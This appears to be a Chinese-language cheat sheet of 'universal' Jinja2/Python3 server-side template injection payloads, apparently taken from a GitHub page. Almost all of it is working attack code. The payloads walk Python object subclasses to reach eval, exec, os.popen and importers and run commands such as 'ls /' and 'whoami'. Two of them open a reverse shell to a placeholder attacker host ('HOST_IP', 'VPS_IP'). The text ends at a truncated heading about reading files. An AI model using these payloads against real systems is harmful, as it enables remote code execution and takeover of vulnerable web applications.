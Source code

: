 

#### 通用 payload ( Python3 )

```python
# 命令执行_eval
 {% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}

# 命令执行_os.py
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'os' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['os'].popen('ls /').read() }}
    {% endif %}
{% endfor %}

# 命令执行_popen
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'popen' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['popen']('ls /').read() }}
    {% endif %}
{% endfor %}

# 命令执行__frozen_importlib.BuiltinImporter
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if 'BuiltinImporter' in x.__name__ %}
        {{ x["load_module"]("os")["popen"]("ls /").read() }}
    {% endif %}
{% endfor %}

# 命令执行_linecache
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'linecache' in x.__init__.__globals__ %}
        {{ x.__init__.__globals__['linecache']['os'].popen('ls /').read() }}
    {% endif %}
{% endfor %}


# 命令执行_exec(无回显故反弹shell)
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'exec' in x.__init__.__globals__['__builtins__']['exec'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HOST_IP",Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}
    {% endif %}
{% endfor %}

{{().__class__.__bases__[0].__subclasses__()[216].__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("VPS_IP",端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')}}

# 命令执行_catch_warnings 
{% for x in [].__class__.__base__.__subclasses__() %}{% if 'war' in x.__name__ %}{{ x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}

# catch_warnings 读取文件
```